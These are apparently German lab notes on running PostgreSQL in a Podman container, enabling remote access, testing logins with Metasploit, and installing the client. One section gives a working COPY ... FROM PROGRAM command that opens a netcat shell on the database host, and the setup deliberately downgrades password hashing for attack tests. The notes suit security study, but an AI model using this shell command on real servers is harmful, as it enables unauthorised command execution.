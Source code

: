 Postgres

# Konfiguration


## Podman Container

lokales Environment-File erzeugen

~/.env:

```
export POSTGRES_PASSWORD=""
export POSTGRES_USER="analyzer"
export POSTGRES_DB="sanalyzer"
export POSTGRES_INITDB_ARGS="--auth-host=scram-sha-256"
export POSTGRES_HOST_AUTH_METHOD="scram-sha-256"
```

compose.yaml:
```
# Use postgres/example user/password credentials

services:

  db:
    image: postgres
    restart: always
    # set shared memory limit when using docker compose
    shm_size: 128mb
    # or set shared memory limit when deploy via swarm stack
    #volumes:
    #  - type: tmpfs
    #    target: /dev/shm
    #    tmpfs:
    #      size: 134217728 # 128*2^20 bytes = 128Mb
    environment: 
      POSTGRES_PASSWORD: ${POSTGRES_PASSWORD}
      POSTGRES_USER: ${POSTGRES_USER}
      POSTGRES_DB: ${POSTGRES_DB}
      POSTGRES_HOST_AUTH_METHOD: ${POSTGRES_HOST_AUTH_METHOD}
      POSTGRES_INITDB_ARGS: ${POSTGRES_INITDB_ARGS}


  adminer:
    image: adminer
    restart: always
    ports:
      - 8080:8080
```

Container starten mit: `p compose up -d`

Adminer läuft auf Port 8080.




## Remote Access ermöglichen

1. /etc/postgresql/14/main/postgresql.conf

```
    # Listen Adresse auf alle Interfaces setzen
      listen_addresses = '*' 

    # password_encryption
    password_encryption = md5    # scram-sha-256 or md5

    *Password Encryption sollte man auf dem default-Wert "scram-sha-256" lassen. Für metasploit Tests kann man das auf 
    md5 setzen. Wenn vorher aber User/Role mit scram-sha-256 angelegt wurden, sind die Passwörter mit dem Verfahren 
    verschlüsselt worden. Daher muss man die Passwörter neu vergeben, ansonsten liefert Metasploit folgende Fehlermeldung 
    beim exploit "scanner/postgres/postgres_login"*

    .. code-block:: shell

        [-] <IP>:5432 - LOGIN FAILED: admin:admin@mydb (Incorrect: unknown auth type '10' with buffer content:
        52 00 00 00 17 00 00 00 0a 53 43 52 41 4d 2d 53    |R........SCRAM-S|
        48 41 2d 32 35 36 00 00                            |HA-256..|
    
```

2. /etc/postgresql/14/main/pg_hba.conf

```   
    # Netzwerkbereich zulassen, der zugreifen darf
      host    all             all             <IP Netz>/24        md5
```

3. systemctl restart postgresql
4. lsof -i:5432
5. less /var/log/postgresql/postgresql-14-main.log
6. psql -h <IP> -p 5432 -d <DB> -U <user> -W


## Command Execution with COPY Command

Quelle: `<https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767>`_

In diesem Szenario erfolgt eine remote Anmeldung an die postgres-Datenbank; es wird ein Listener eingerichtet, um beliebige
Befehle auf dem Zielhost abzusetzen. 

1. Anmelden an Datenbanken mit Admin-User::
   
    psql -h <Zielhost> -U <User> -d <Datenbank> -W

2. Remote Listener einrichten::
   
    COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc -l <Zielhost> <PORT> > /tmp/f';

3. in einer neuen Shell können dann bash Befehle abgesetzt werden::
   
    nc <Zielhost> <PORT> 
   
   Befehle werden im Kontext des postgres-Serverprocesses ausgeführt.



## Lokaler Client 

**Add the PGDG repo**

`sudo sh -c 'echo "deb http://apt.postgresql.org/pub/repos/apt $(lsb_release -cs)-pgdg main" > /etc/apt/sources.list.d/pgdg.list'`

**Import the repository signing Keys**

`curl -fsSL https://www.postgresql.org/media/keys/ACCC4CF8.asc | sudo gpg --dearmor -o /etc/apt/trusted.gpg.d/postgresql.gpg`

**Update Your Package Index again**

`sudo apt update`

**Install PostgreSQL Version 18 Client**

`sudo apt -y install postgresql-client-18`

